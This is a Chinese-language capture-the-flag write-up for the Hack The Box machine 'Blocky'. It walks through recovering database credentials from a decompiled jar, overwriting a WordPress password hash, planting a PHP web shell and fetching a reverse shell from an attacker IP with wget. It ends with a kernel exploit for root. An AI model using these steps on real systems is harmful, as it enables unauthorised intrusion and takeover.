 # Blocky
- URL : https://app.hackthebox.eu/machines/48
- IP : 10.129.1.53

## Recon
- Rustscan
    - ![](https://i.imgur.com/P89zhUR.png)
- Nmap
    - ![](https://i.imgur.com/bDwHzxn.png)
- 觀察首頁
    - ![](https://i.imgur.com/WqNoQVr.jpg)
    - ![](https://i.imgur.com/HvhvLma.png)
    - 看起來是 Wordpress
- 掃目錄
    - https://www.exploit-db.com/exploits/46676
    - phpmyadmin
    - plugins
- PHPmyadmin
    - ![](https://i.imgur.com/awdZmG7.png)
    - ![](https://i.imgur.com/btMisFu.png)
    - Version `4.5.4.1`
    - ![](https://i.imgur.com/4t4v8Sa.png)
    - 有 Exploit
        - https://www.exploit-db.com/exploits/40185
            - 要帳密
- 繼續觀察
    - ![](https://i.imgur.com/SrBdmAD.png)
    - 他有一個 Wiki
    - ![](https://i.imgur.com/FPx76mQ.png)
    - 其實剛剛 dirsearch 就有看到
## Wordpress
- 觀察 Wordpress 使用者
    - `http://10.129.1.53/index.php/?author=1`
    - `notch`
    - ![](https://i.imgur.com/ZBjHwgb.png)
    - ![](https://i.imgur.com/HHVGKWD.png)
- 嘗試登入 `/wp-admin`
    - ![](https://i.imgur.com/boYSIEU.png)
- 觀察目錄 `/plugins`
    - `plugins`
    - ![](https://i.imgur.com/PI5v79z.png)
    - 裡面有兩個檔案
    - 感覺 `BlockyCore.jar` 是它們自己寫的
## Reverse
- 用 r2 觀察
    - ![](https://i.imgur.com/JnQg4vm.png)
- 算ㄌ還是不要裝逼，乖乖用 jd-gui 笑死
    - ![](https://i.imgur.com/YnpMm9M.png)
- 找到 db 帳密
    - `root`
    - `8YsqfCTnvxAUeduzjNSXe22`
## PHP My admin
- 用帳密登入後找到 Wordpress 使用者頁面
    - ![](https://i.imgur.com/dxptAUw.png)
    - 備份原本使用者的 hash 以備不時之需
    - `$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/`
- 把 hash 修改成 `12345` 的 md5
    - `827ccb0eea8a706c4c34a16891f84e7b`
    - ![](https://i.imgur.com/uQGlHLJ.png)
## 登入 Wordpress
- 用帳號 `notch` 密碼 `12345` 登入
    - ![](https://i.imgur.com/z9HTx8b.png)
- 在 plugin 中增加 php web shell
    - ![](https://i.imgur.com/40gCNnS.png)
- 確認 webshell 可用
    - ![](https://i.imgur.com/JSS7xV0.png)
- 下載 reverse shell
    - http://10.129.1.53/wp-content/plugins/akismet/akismet.php?A=wget%2010.10.16.35:8000/s_HTB
- 執行 webshell
    - http://10.129.1.53/wp-content/plugins/akismet/akismet.php?A=bash%20s_HTB
## Reverse shell
- ![](https://i.imgur.com/7JQhg8u.png)
- spawn shell
    - `python3 -c 'import pty; pty.spawn("/bin/bash")'`
## 提權
- 跑 Linpeas
    - ![](https://i.imgur.com/RNLfKEz.png)
    - 發現可以 Kernel Exploit
    - https://github.com/rlarabee/exploits/tree/master/cve-2017-16995
- 編譯並丟過去
    - https://raw.githubusercontent.com/rlarabee/exploits/master/cve-2017-16995/cve-2017-16995.c
    - ![](https://i.imgur.com/7lmSnLK.png)
- 取得 Flag
    - User
        - ![](https://i.imgur.com/JOMWCbN.png)
        - `59fee0977fb60b8a0bc6e41e751f3cd5`
    - Root
        - ![](https://i.imgur.com/y15GubM.png)
        - `0a9694a5b4d272c694679f7860f1cd5f`
- 看了一下正規解
    - 貌似可以直接用 SQL 密碼 SSH 登入
    - 然後 sudo su 就結束ㄌ
    - ㄏㄏ
